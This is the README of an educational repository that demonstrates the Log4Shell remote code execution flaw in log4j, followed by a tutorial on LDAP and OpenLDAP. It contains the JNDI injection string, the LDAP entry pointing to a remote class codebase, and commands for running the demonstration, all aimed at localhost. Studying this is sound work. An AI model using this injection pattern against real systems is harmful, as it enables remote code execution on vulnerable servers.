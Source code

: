 # Log4Shell

This repo contains code to demonstrate how the remote code execution vulnerability in log4j works. **For educational purposes only**. Read more here: https://www.lunasec.io/docs/blog/log4j-zero-day/ and here https://nvd.nist.gov/vuln/detail/CVE-2021-44228.

## How it works

* [`DoJndiLookup`](src/main/java/com/kelseymckenna/ldap/DoJndiLookup.java) executes the following statement:
    ```
    LOGGER.info("${jndi:ldap://localhost/cn=log4shell,dc=example,dc=com}");
    ```
* Log4J makes a request to the LDAP server ("localhost" here just for testing) with the filter/query `cn=log4shell,dc=example,dc=com`
* The server returns something like this:
    ```
    dn: cn=log4shell,dc=example,dc=com
    objectClass: javaContainer
    objectClass: javaNamingReference
    cn: log4shell
    javaClassName: foo
    javaFactory: Log4Shell
    javaCodebase: http://localhost:8000
    ```
* It makes a request to the file server (in this case just a Python3 "http.server") at `http://localhost:8000/Log4Shell.class`. It determined the URI using the `javaCodebase` and `javaFactory` attributes.
* The `Log4Shell` class implements `javax.naming.spi.ObjectFactory`. The return value from its `getObjectInstance` method is what gets logged in `DoJndiLookup`. The `getObjectInstance` method can have arbitrary code.


## How to run

1. Install the prerequisites. Adjust the command for your OS.
    ```
    sudo yum install gcc java-1.8.0-openjdk-devel maven -y
    ```
2. Run `make customize-config` OR build an image from the Dockerfile, e.g. `docker build . -t local/log4shell` then run it, e.g `docker run -it local/log4shell sh`.
3. Run
    ```
    make start-slapd
    make add-log4shell-entry
    ./ldap/search.sh "cn=log4shell,dc=example,dc=com"
    make start-http-server
    make run-exploit # You should see "WARNING: This is an arbitrary command run from Log4Shell.java!" in the logs.
    ```

## LDAP

I'll cover the main things I learned. Don't take this as gospel.

LDAP: lightweight directory access protocol.

A "directory" is a **hierarchical database**. For example, you could have an employee in that directory called Joe who works in the Engineering department at Example Company. He would be identified by a **distinguished name** (dn) of `cn=joe,ou=engineering,dc=example,dc=com`; in English that would be "Common Name: Joe, Organizational Unit: Engineering, Company: example.com" (dc means "domain component"). The entries can have attributes too, see below.

You can add entries to the database with the `ldapadd` command, specifying a `ldif` (LDAP Data Interchange Format) file to load the entries from. Entries are separated by empty lines in `ldif` files that look like this:
```
dn: c=US,dc=example,dc=com
objectclass: country
c: US

# other entries ...

dn: cn=Joe Bloggs,ou=Engineering,c=US,dc=example,dc=com
objectclass: organizationalPerson
cn: Joe Bloggs
sn: Bloggs
title: Vice President
```

In this repo I made my organization "example.com", i.e. `dc=example,dc.com`. This means all entries in the database are **descendants** of this entry. For example, I can't add an entry with a distinguished name of `cn=123`, it would need to be `cn=123,dc=example,dc=com`.

Each entry has an **`objectclass`** attribute that determines the **schema** of the entry (see [RFC2256](https://datatracker.ietf.org/doc/html/rfc2256)). For example, there's a built-in `country` object class that has a schema with a mandatory `c` attribute (the two-letter ISO 3166 country code) and some optional attributes. You have to put the mandatory attributes in the distinguished name; the example entry above for US must have a dn of `c=US,dc=example,dc=com`; it couldn't have a dn of `c=GB,dc=example,dc=com` or `x=US,dc=example,dc=com` or `x=1,c=US,dc=example,dc=com`.

Object classes have a **type hierarchy** with the abstract class `top` at the top. You can specify multiple object class attributes for an entry. You'll see in [`log4shell.ldif`](ldap/log4shell.ldif) two object classes: `javaContainer` and `javaNamingReference`. The latter object class is the important one - it has the attributes we need for the exploit - but it is an "auxiliary" object class and its parent `javaObject` is an abstract class, so we specify `javaContainer` to give it a concrete ("structural" in LDAP terms) type.

You can **search** the directory like a database too. E.g. to lookup the entry for the US by ID/distinguished name you can run `ldapsearch -x -s base -b 'c=US,dc=example,dc=com'`. Or if you want to list all entries "under" US, e.g. show all departments and employees in US, then you could change `-s base` to `-s sub`. You can filter by the attributes too.

I used **[OpenLDAP](https://www.openldap.org/)** to get a stand-alone LDAP daemon called **slapd**. The Makefile customizes the database to use "example.com" as the root domain instead of "my-domain.com" and adds an "include" to import the java schema in addition to the core schema. 

In order to **modify** the database we have an admin user with the distinguished name `cn=Manager,dc=example,dc=com`. The admin user and password were configured when we originally created the database with `/usr/local/etc/openldap/slapd.ldif`. When you execute commands you can specify the password inline with `-w <password>` and specify the admin user's dn with `-D <dn>`. E.g. `ldapadd -w secret -D "cn=Manager,dc=example,dc=com" -f ldap/log4shell.ldif` will add the entries in `log4shell.ldif` to the database. The default configuration allows **read-only access to all users**.


## Notes

* Fun fact: AWS EC2 instances have a process running that automatically patches vulnerable applications! If you run `ps -ef | grep log4j-cve` you'll see `/usr/bin/log4j-cve-2021-44228-hotpatch` is running. This means JNDI lookups will print `Patched JndiLookup::lookup()` instead. Read more here: https://aws.amazon.com/blogs/opensource/hotpatch-for-apache-log4j/
* The [`ldap/`](./ldap) folder has some helper scripts for querying slapd (the LDAP directory server)

